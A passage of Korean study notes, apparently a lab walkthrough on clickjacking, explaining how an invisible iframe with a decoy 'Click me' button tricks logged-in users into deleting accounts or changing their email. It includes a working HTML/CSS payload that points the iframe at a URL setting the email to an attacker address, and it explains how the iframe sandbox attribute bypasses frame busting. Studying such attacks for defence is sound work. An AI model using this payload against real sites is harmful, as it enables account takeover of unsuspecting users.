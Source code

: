  

뒤에는 타겟 사이트가 해당 유저의 세션으로 띄워져 있는 상태이다. 
여기서 Click me에 속아서 클릭을 하면 본인 계정을 삭제하게 되는 것이다. 



### 5.2.2. 예제-2

목표는 이메일은 업데이트 하는 것. 
input은 때로 URL query string으로 입력이 가능하다.

그래서 URL이 담긴 iframe을 피싱용 내 사이트에 넣는다. 
그리고 투명하게 하고, 그 위에 Click me 같은 피싱용 문구를 버튼 위에 정확히 오게 조절한다. 

```html
<style> 
  iframe { 
​    position:relative; 
​    width:700px; 
​    height: 500px; 
​    opacity: 0.1; 
​    z-index: 2; 
  } 
  div { 
​    position:absolute; 
​    top:440px; 
​    left:80px; 
​    z-index: 1; 
  } 
</style> 
<div>Click me</div> 
<iframe src="https://타겟사이트/email?email=hacker@attacker-website.com"></iframe> 
```

그리고 이 스크립트가 담긴 URL을 다른 유저가 방문하고, 
Click me에 속아서 누르면, 해커가 설정한 이메일이 URL에 담겨서 update버튼을 누르게 된다. 

***

**Frame busting script**

클릭제킹 공격은 타겟사이트가 frame화 할 수 있어야만 가능하다. 

브라우져는 이런 공격을 막기위해 Frame busting(프레임 파괴)라는 여러 대책을 만들었다. 

- 모든 프레임을 보이게 한다. 
- 안보이는 프레임의 클릭을 막는다. 
- 뒤에 숨겨진 프레임이 있음을 알린다. 등등 

이러한 Frame buster를 피하기위해 HTML5에 추가된 iframe sandbox 속성이 쓰인다. 

allow-forms, allow-scripts, allow-top-navigation 같은 값을 설정하면 Frame buster를 무효화시킬 수 있다. 


### 5.2.3. 예제-3

위의 Lab과 똑같은데, 이번에는 Frame buster가 적용되어 있다. 
